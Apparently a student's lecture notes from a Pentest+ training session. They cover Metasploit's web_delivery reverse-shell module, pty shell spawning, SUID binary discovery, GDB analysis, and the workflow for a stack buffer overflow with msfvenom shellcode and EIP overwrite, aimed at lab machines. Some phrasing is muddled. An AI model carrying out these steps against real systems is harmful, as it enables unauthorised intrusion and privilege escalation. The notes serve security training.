


# Session 13: Pentest+

## Table of Contents
- [Connecting to Target Machine](#connecting-to-target-machine)
- [Metasploit Console and Web Delivery Payload](#metasploit-console-and-web-delivery-payload)
- [Session Issues and Python Version Compatibility](#session-issues-and-python-version-compatibility)
- [Introduction to Buffer Overflow](#introduction-to-buffer-overflow)
- [Memory Stack Layout and Address Spaces](#memory-stack-layout-and-address-spaces)
- [Finding and Analyzing Executable Files](#finding-and-analyzing-executable-files)
- [Using GDB for Exploits](#using-gdb-for-exploits)
- [Pattern Creation and Offset Calculation](#pattern-creation-and-offset-calculation)
- [Exploiting Buffer Overflow](#exploiting-buffer-overflow)
- [Summary](#summary)

## Connecting to Target Machine
### Overview
This section covers initial setup and connectivity issues when accessing a target machine, typically in a penetration testing environment like a vulnerable system hosted on a specific IP (e.g., 148). It emphasizes troubleshooting connection errors, SSH configurations, and key-based authentication.

### Key Concepts/Deep Dive
- **SSH Connection via Proxy**: Use SSH with proxy jump (`ssh -J`) to connect to internal networks through intermediate hosts. For example, connecting to 148 through a proxy.
- **Key-Based Authentication**: Add public keys to `authorized_keys` for passwordless SSH access. Reset the machine if key verification fails.
- **Error Handling**: Common errors include "connection timed out" or key mismatches. Reinstall/restart the target environment (e.g., VM) if authentication issues persist after key additions.
- **Commands**:
  ```bash
  ssh -J proxy_user@proxy_ip target_user@148
  ```

> [!IMPORTANT]
> Always verify key permissions and ownership (e.g., 600 for private key).

## Metasploit Console and Web Delivery Payload
### Overview
Metasploit (MSF) is a penetration testing framework for developing and executing exploits. The web delivery module facilitates payload delivery via web interfaces, bypassing some network restrictions.

### Key Concepts/Deep Dive
- **Module Selection**: Search for payloads like `web_delivery` in MSF console. Options include reverse shells for connectivity back to the attacker.
- **Configuration**: Set target host (`LHOST`) and adjust payload type (e.g., PowerShell or Python).
- **Execution**: Launch the module and extract the generated payload code for delivery.
- **Payload Types**: Use reverse TCP payloads for establishing shells. Handle Python version incompatibilities by creating custom scripts.

### Lab Demos
- Start MSF console:
  ```bash
  msfconsole
  ```
- Search and use web_delivery:
  ```bash
  search web_delivery
  use exploit/multi/script/web_delivery
  set LHOST <your_ip>
  run
  ```
- Copy the generated code and inject it into the target.

## Session Issues and Python Version Compatibility
### Overview
When executing payloads, version mismatches (e.g., Python 2.5 vs. 3) can cause import errors. This requires fallback to simpler shell spawning techniques in older environments.

### Key Concepts/Deep Dive
- **Attribute Errors**: Occur when using modern Python features not supported in older versions (e.g., SSL context handling).
- **Alternative Payloads**: Use pty for spawning interactive shells:
  ```python
  import pty
  pty.spawn('/bin/bash')
  ```
- **Shell Accessibility**: Target systems may run legacy Python versions; test compatibility first.
- **Troubleshooting**: If Metasploit sessions fail, manually execute shell commands.

| Issue | Cause | Resolution |
|-------|-------|------------|
| `AttributeError` | Python < 2.6 | Remove SSL-related code or use legacy imports |
| No reverse shell | Firewall/port blocks | Use alternative ports or tunneling |

## Introduction to Buffer Overflow
### Overview
Buffer overflow is a vulnerability where excess data overwrites adjacent memory, allowing arbitrary code execution. This is critical in penetration testing for exploiting software flaws.

### Key Concepts/Deep Dive
- **Buffer Basic**: A reserved memory space for program data. Overflow occurs when input exceeds allocated size.
- **Stack Overflow**: Exploits stack memory, where functions and parameters are stored.
- **Detection**: Segmentation faults indicate potential overflows.
- **Analogy**: Like a calculator variable overflowing beyond its limit (e.g., integer overflow vs. buffer overflow).

```diff
+ Core Concept: Overflow buffer to inject shellcode
- Risk: Memory corruption leading to crashes
```

## Memory Stack Layout and Address Spaces
### Overview
Memory is divided into segments (text, data, heap, stack, kernel). The stack holds function calls, variables, and return addresses, ripe for overflow attacks.

### Key Concepts/Deep Dive
- **Stack Structure**: Top-to-bottom; stores input, calculations, functions, and return values.
- **Key Pointers**:
  - **ESP**: Stack pointer, top of the stack.
  - **EBP**: Base pointer, bottom of the buffer.
  - **EIP**: Instruction pointer, next instruction to execute.
- **Overflow Exploitation**: Fill buffer with NOPs (no-operations) and shellcode, overwrite EIP to redirect execution.



### Lab Demos
- Visualize stack growth:
  ```bash
  # Conceptual; not executable
  function add(a, b) { return a + b; }
  # Buffer fills from top to bottom
  ```

## Finding and Analyzing Executable Files
### Overview
Detect potential vulnerable binaries by locating executables (permission 4000) and analyzing file types using `file` command.

### Key Concepts/Deep Dive
- **Finding Files**: Use `find` to locate executable files across directories.
- **File Analysis**: Identify LSB (64-bit) vs. LSB (32-bit) executables; requires GDB for 32-bit on 64-bit systems.
- **Commands**:
  ```bash
  find / -perm -4000 -type f 2>/dev/null
  file <filename>
  gdb -q <filename>
  ```

> [!NOTE]
> Exclude system directories like `/bin` or `/usr/bin` as they are typically patched.

## Using GDB for Exploits
### Overview
GNU Debugger (GDB) inspects executables, disassembles code, and simulates overflows to find vulnerable functions like `strcpy`.

### Key Concepts/Deep Dive
- **Loading Binaries**: Use `gdb -q <file>` to attach and analyze.
- **Disassembly**: Command `disassemble main` reveals assembly calls (e.g., `strcpy` at offset +71).
- **Debugging Keys**: Use `run`, `info registers` for pointers (EIP, ESP, EBP).

### Lab Demos
- Attach to executable:
  ```bash
  gdb -q root
  disassemble main
  run
  info registers
  ```

## Pattern Creation and Offset Calculation
### Overview
Metasploit tools generate unique patterns to map buffer offsets, crucial for precise overflow targeting.

### Key Concepts/Deep Dive
- **Pattern Tools**: `pattern_create.rb` generates repeatable strings; `pattern_offset.rb` calculates distances.
- **Offset Calculation**: Example: 1000-length pattern at offset 268 hits EBP.
- **Distance**: ESP to EBP is typically 4 bytes.
- **Usage**:
  ```bash
  ruby /path/to/pattern_create.rb -l 1000
  python -c "print 'A'*268 + 'B'*4"
  ```

| Tool | Purpose | Example Output |
|------|---------|----------------|
| pattern_create.rb | Generate filler string | (Repeating ASCII pattern) |
| pattern_offset.rb | Find position | Exact match at offset 268 |

## Exploiting Buffer Overflow
### Overview
Implement the attack by crafting payloads, unsetting environments, and executing shellcode for root access.

### Key Concepts/Deep Dive
- **Payload Crafting**: Use MSF Venom with badchars excluded (`\x00\x0a\x0d`).
- **Shellcode Integration**: Reverse shellcode placed after NOPs and return address overwrite.
- **Environmental Tweaking**: Unset variables to control registers.
- **Execution**:
  ```bash
  unsetenv LINES
  unsetenv COLUMNS
  info registers  # Get ESP address
  ```
- **Automating Exploits**: Generate patterns, calculate offsets, inject shellcode.



## Summary
### Key Takeaways
```diff
+ Identify executables with find and file commands
- Segmentation faults indicate buffer overflows
! Use GDB to disassemble and find vulnerable functions like strcpy
+ Pattern tools (Metasploit) calculate precise offsets (e.g., 268 for EBP)
- Handle Python version incompatibilities with fallback scripts
+ Stack pointers: ESP (top), EBP (bottom), EIP (next instruction)
! Unset environments to control debug registers for exploits
+ Craft payloads excluding badchars for successful injection
```

### Expert Insight
#### Real-world Application
Buffer overflow exploits are foundational in penetration testing for legacy systems (e.g., IoT devices running outdated firmware). Production environments mitigate with address space layout randomization (ASLR) and stack canaries, but undetectable in vulnerable apps.

#### Expert Path
1. Master assembly and compilers (e.g., via "Hacking: The Art of Exploitation").
2. Practice on platforms like TryHackMe or PWK for real-world labs.
3. Learn DEP/ROP chains for modern protections.

#### Common Pitfalls
- File location changes: Target directories rotate (e.g., doors in VMs); re-scan frequently.
- Timeout errors: Work in 2-minute windows; pre-record commands in Notepad.
- Python version mismatches: Always test imports; use `pty.spawn` for compatibility.
- Resolution: For "Operation not permitted", check user permissions or use root escalation post-exploit. For badchars errors, iterate exclusions (\x00\x0a\x0d common). If offset mismatches, re-run pattern creation with larger lengths. Less common: Kernel differences may require architecture-specific payloads; debug with `strace` for syscall issues. Avoid assuming 64-bit binaries run 32-bit without lib32; install cross-compilers if needed.
